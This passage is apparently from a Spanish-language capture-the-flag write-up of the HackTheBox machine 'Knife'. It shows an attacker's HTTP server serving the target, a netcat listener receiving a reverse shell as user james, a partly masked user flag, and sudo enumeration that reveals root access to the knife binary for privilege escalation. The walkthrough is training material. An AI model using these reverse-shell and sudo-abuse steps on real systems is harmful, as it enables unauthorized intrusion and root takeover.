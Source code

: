 ![Untitled](/assets/images/Knife/Untitled%202.png)

```bash
❯python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.242 - - [26/Aug/2021 10:03:48] "GET / HTTP/1.1" 200 -

───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.198] from (UNKNOWN) [10.10.10.242] 44230
bash: cannot set terminal process group (1039): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.0$ whoami
whoami
james
bash-5.0$
```

Obtenemos una reverse shell como el usuario James.

# ESCALADA DE PRIVILEGIOS

```bash
james@knife:~$ $ cat user.txt
cat user.txt
70fafa7feb8aaa02687--------
james@knife:~$ $ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Enumerando el sistema, vemos que tenemos el privilegio de ejecutar como root el binario `knife` 

Este binario nos permite ejecutar comandos

```bash
** EXEC COMMANDS **
knife exec [SCRIPT] (options)
james@knife:/tmp$ $ sudo /usr/bin/knife exec --help
sudo /usr/bin/knife exec --help
knife exec [SCRIPT] (options)
    -s, --server-url URL             Chef Infra Server URL.
        --chef-zero-host HOST        Host to start Chef Infra Zero on.
        --chef-zero-port PORT        Port (or port range) to start Chef Infra Zero on. Port ranges like 1000,1010 or 8889-9999 will try all given ports until one works.
    -k, --key KEY                    Chef Infra Server API client key.
        --[no-]color                 Use colored output, defaults to enabled.
    -c, --config CONFIG              The configuration file to use.
        --config-option OPTION=VALUE Override a single configuration option.
        --defaults                   Accept default values for all questions.
    -d, --disable-editing            Do not open EDITOR, just accept the data as is.
```